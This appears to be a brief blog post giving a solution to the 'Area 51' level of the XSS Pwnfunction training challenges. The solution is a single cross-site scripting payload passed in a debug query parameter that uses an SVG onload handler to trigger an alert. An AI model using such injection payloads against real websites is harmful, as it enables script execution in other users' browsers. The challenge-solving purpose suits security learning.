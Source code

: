 ```yaml
---
layout: post
title: 'XSS Pwnfunction | Challenges'
permalink: /other/xss-pwnfunction/challenges/
---
```


# Area 51
{% highlight html %}
?debug=&lt;?php&gt;&lt;&lt;svg%20onload=alert(1337)&gt;
{% endhighlight %}
